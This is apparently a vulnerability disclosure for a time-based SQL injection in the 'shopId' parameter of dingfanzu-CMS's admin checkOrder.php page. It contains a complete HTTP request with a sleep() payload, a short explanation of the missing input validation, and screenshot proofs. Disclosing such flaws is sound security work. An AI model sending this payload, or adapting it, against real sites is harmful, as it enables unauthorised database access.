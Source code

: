 # dingfanzu-CMS checkOrder.php shopId SQL-inject

**Exploit Title: dingfanzu-CMS checkOrder.php shopId SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/dingfanzu**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "checkOrder.php" shopId module, resulting in the generation of SQL injection.

The path to the vulnerability：/admin/checkOrder.php?shopId=

    Payload used:

```
GET /admin/checkOrder.php?shopId=0002'+and+sleep(3)--+ HTTP/1.1
Host: dingfanzu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: adminId=16; adminName=liu; shopId=1000; Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1736094869; HMACCOUNT=74321D4C60CCF393; PHPSESSID=su7te2f8aq0m0hg3ukdbf7ouqm; places=%5B%7B%22shopId%22%3A%221000%22%2C%22shopName%22%3A%22%5Cu9f50%5Cu9c81%5Cu5927%5Cu53a6%22%7D%2C%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%5Cu6e56%5Cu5317%5Cu5927%5Cu53a6%22%7D%5D; userId=aaa1; shopInfo=%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%E6%B9%96%E5%8C%97%E5%A4%A7%E5%8E%A6%22%2C%22shopPhone%22%3Anull%2C%22shopTip%22%3A%22%E5%93%88%E5%93%88%22%2C%22shopState%22%3A%221%22%2C%22shopIcon%22%3A%221001.jpg%22%2C%22shopBlock%22%3A%22%3F%23A%23B%23%22%2C%22shopFloor%22%3A%22%3F%231%232%233%22%7D; cart1001=%5B%7B%22itemId%22%3A%221685431107987%22%2C%22name%22%3A%22%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu7092%5C%5Cu9e21%5C%5Cu86cb%22%2C%22count%22%3A1%2C%22price%22%3A%2211%22%7D%5D; myInfo=%7B%22userId%22%3A%22aaa1%22%2C%22paymethod%22%3A%220%22%2C%22pn%22%3Anull%2C%22name%22%3Anull%2C%22place%22%3A%22%22%2C%22block%22%3Anull%2C%22floor%22%3Anull%2C%22jifen%22%3Anull%2C%22email%22%3Anull%2C%22price%22%3A%220%22%2C%22orderArrivedTime%22%3A%221%3A30-2%3A00%22%2C%22orderRemark%22%3A%22%22%7D; cart0001=%5B%7B%22itemId%22%3A%221466524398193%22%2C%22name%22%3A%22%5C%5Cu5bab%5C%5Cu4fdd%5C%5Cu9e21%5C%5Cu4e01%5C%5Cu002b%5C%5Cu9e21%5C%5Cu86cb%5C%5Cu7092%5C%5Cu9ec4%5C%5Cu74dc%5C%5Cu002b%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu6284%5C%5Cu725b%5C%5Cu8169%22%2C%22count%22%3A1%2C%22price%22%3A%2215%22%7D%5D; shopId=1001; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1736099897
Connection: keep-alive


```



## Proof of Concept

The code does not validate the input data and does not use precompilation technology


![image-20250106015104794](https://github.com/user-attachments/assets/2780414f-c453-4396-b332-3b054080ccb6)



Practical verification

![image-20250106021003686](https://github.com/user-attachments/assets/656d9fab-e036-4d83-9bf0-06a19b94a48c)

